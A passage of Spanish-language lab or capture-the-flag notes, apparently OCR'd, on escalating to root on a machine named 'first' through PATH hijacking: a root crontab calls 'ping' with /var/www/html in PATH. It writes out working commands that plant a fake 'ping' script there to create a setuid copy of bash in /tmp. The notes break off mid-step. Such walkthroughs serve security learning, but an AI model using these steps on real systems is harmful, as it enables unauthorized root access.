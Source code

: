 escribimos la contraseña tupassword

listo somos root !!!


********************************************************

Parte 10.- Variable de entorno PATH

puedo verlo de 2 maneras:

a.- con el comando echo $PATH

b.- con crontab cat /etc/crontab

Máquina first

al ejecutar el comando cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/var/www/html:/bin:/usr/sbin:/usr/bin

# Example of job definition:

* * * * * root ping -c1 raspberrypi.com

en el PATH se incluye/var/www/html que es riesgoso porque:

Alguien puede subir un archivo ejecutable o un script PHP/Shell malicioso allí.

Un usuario desprevenido ejecuta un comando que tiene el mismo nombre que un binario malicioso en esa carpeta.

el ataque se llama Ataque: Hijacking del PATH para Escalar Privilegios

Requisitos:

Tener permisos de escritura en:

/var/www/html

ejecutamos:

ls -l /var/www

colocar un archivo ping que sea ejecutable.

Que el sistema ejecute esa línea del crontab con PATH mal configurado (como en este caso)

Entonces por lo expuesto, ejecutamos los siguientes comandos:

echo '#!/bin/bash' > /var/www/html/ping

echo 'cp /bin/bash /tmp/rootbash' >> /var/www/html/ping

echo 'chmod +s /tmp/rootbash' >> /var/www/html/ping

chmod +x /var/www/html/ping

Luego de esperar un min ya que así lo dice el crontab:

ejecutamos:
